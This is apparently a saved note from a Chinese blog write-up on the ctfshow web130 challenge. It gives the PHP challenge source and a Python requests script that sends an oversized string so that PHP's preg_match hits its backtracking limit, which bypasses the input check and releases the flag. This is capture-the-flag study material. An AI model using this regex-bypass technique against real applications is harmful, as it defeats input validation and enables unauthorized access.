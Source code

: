 
## stripos($f, 'ctfshow') === FALSE
php_bypass_ctfshow web入门php特性 - 森sen - 博客园 (2023_11_22 21_26_06).html  -- 看web130
```php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){     //不能匹配到/.+?ctfshow/
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){      //传的$f中有ctfshow
        die('bye!!');
    }

    echo $flag;

} 
```


payload1 通过发送超长字符串的方式，使正则执行失败：
```py
import requests
url="http://d982e941-58a2-4bbb-8e2e-298bdb38ac17.challenge.ctf.show/"
data={"f":"1111"*250000+"ctfshow"}
response=requests.post(url=url,data=data)
print(response.text)
```